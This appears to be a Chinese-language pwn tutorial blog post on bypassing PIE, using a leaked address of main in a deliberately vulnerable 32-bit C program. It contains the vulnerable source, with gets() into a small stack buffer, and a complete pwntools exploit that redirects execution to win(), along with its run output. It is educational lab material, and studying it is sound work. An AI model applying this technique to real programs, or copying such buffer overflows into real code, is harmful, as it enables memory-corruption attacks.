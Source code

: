 ```yaml
---
title: '利用已泄漏信息绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '32-bit 与 64-bit 之间的差异'
authors: ['default']
---
```


## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

int main() {
  vuln();

  return 0;
}

void vuln() {
  char buffer[20];

  printf("Main Function is at: %lx\n", main);

  gets(buffer);
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

程序输出 `main` 的地址，我们可以通过它来计算出基地址。然后我们可以利用这个基地址
计算出 `win()` 的地址。

## 0x02 分析

让我们运行该脚本以确保它是正确的 :D

```
$ ./vuln-32
Main Function is at: 0x5655f1b9
```

正如我们所期望的，它打印了 `main` 的地址。

## 0x03 利用

首先，让我们设置脚本。创建一个 `ELF` 对象（稍后会变得非常有用），然后启动该进程。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

现在我们要获取 `main` 函数的地址。为此，我们可以简单地接收它，然后读取。

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

:::info
由于我们接收了除地址之外的整行，因此只有地址才会出现在 `p.recvline()` 中。
:::

现在我们将使用之前创建的 `ELF` 对象并设置它的基地址。`sym` 存储的是函数的相对偏移量，
我们只要用绝对地址减去相对偏移就可以得到基地址。

*设置基地址前 `sym` 字典中存储的是各函数的相对偏移量；设置基地址之后，`sym` 会变为存储
各函数的绝对地址。*

```python
elf.address = main - elf.sym['main']
```

在这个例子中，`elf.sym['main']` 将返回 `0x11b9` ；如果我们设置基地址后再次运行它，
它将返回 `0x11b9 + 基地址` 的值。本质上，我们是从泄漏的地址中减去 `main` 的偏移量，
以获得二进制文件的基地址。

现在我们有了可以调用 `win()` 的基本信息。我们可以调用 `win()` 了：

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

:::info
我假设你知道如何找到溢出 Padding 以及其他内容，因此我不会向你展示其中的每一步
具体该怎么做，希望你能通过自己的能力解决它们。

如果你不知道该怎么办，请先去看我之前写的文章，好好思考每一步为什么这样做，相信会有所帮助。
:::

```
$ python exp.py
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 147342
PIE bypassed! Great job :D
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

# context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

## 0x04 总结

通过泄漏的 `main` 地址，我们能够计算出二进制文件的基地址。由此我们可以计算出 `win`
的地址并调用它。

## 0x05 64-bit

自己尝试一下 64-bit 的版本该怎么绕过。

LINK

